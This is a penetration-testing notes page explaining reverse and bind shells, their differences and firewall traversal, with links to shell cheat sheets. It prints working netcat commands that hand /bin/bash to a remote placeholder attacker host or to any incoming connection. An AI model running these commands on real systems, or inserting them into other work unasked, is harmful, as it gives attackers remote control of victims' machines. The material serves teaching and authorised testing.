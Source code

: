 # Reverse and bind shells

**Reverse Shell** and **Bind Shell** are two common techniques used in remote command execution, typically in the context of penetration testing or exploiting systems. Here's a breakdown of the differences between the two:

#### **Reverse Shell:**

* **Initiation**: In a reverse shell, the _target machine_ initiates the connection to the _attacker's machine_.
* **How it works**: The attacker sets up a listener on their machine, waiting for a connection from the target machine. Once the target connects back to the attacker, the attacker can execute commands on the target machine.
* **Usage**: Reverse shells are often used when the target machine is behind a firewall or NAT (Network Address Translation) that blocks incoming connections, but allows outbound connections. This makes it easier for the attacker to bypass firewalls and other security measures.
*   **Example**:

    * **Attacker's Machine**: `nc -lvnp 4444` (sets up a listener on port 4444)
    *   **Target Machine**: `nc [attacker_ip] 4444 -e /bin/bash` (connects back to the attacker's machine, providing a shell)\
        \


        Here’s what happens:

        * The victim's machine connects to the attacker’s machine on port 4444.
        * Once the connection is established, the victim’s machine executes `/bin/bash`, and the shell input/output is redirected to the attacker’s machine.
        * The attacker now has a command-line interface on the victim's machine.



#### **Bind Shell:**

* **Initiation**: In a bind shell, the _target machine_ listens on a specific port and waits for the attacker to connect.
* **How it works**: The attacker connects directly to the target machine's open port, and once connected, they can execute commands on the target machine.
* **Usage**: Bind shells are more straightforward but are often blocked by firewalls since they require the target machine to have an open port that the attacker can connect to. This makes them less common when dealing with systems behind firewalls.
* **Example**:
  * **Target Machine**: `nc -lvnp 4444 -e /bin/bash` (listens on port 4444, executing `/bin/bash` for any incoming connection)
  * **Attacker's Machine**: `nc [target_ip] 4444` (connects to the target machine's open port)

\
Here’s what happens:

* The victim’s machine listens on port 4444.
* When the attacker connects to this port, the victim’s machine executes `/bin/bash`, giving the attacker access to a shell on the victim’s system.

Here’s what happens:

* The victim’s machine listens on port 4444.
* When the attacker connects to this port, the victim’s machine executes `/bin/bash`, giving the attacker access to a shell on the victim’s system.

#### **Key Differences:**

1. **Connection Initiation**:
   * **Reverse Shell**: The target machine initiates the connection.
   * **Bind Shell**: The attacker initiates the connection.
2. **Firewall/NAT Traversal**:
   * **Reverse Shell**: Better for bypassing firewalls since it utilizes outbound connections.
   * **Bind Shell**: May be blocked by firewalls that restrict incoming connections.
3. **Ease of Detection**:
   * **Reverse Shell**: Can be harder to detect in environments where outbound connections are less scrutinized.
   * **Bind Shell**: Easier to detect because it requires an open port on the target machine.

#### [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### [https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

#### [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

####
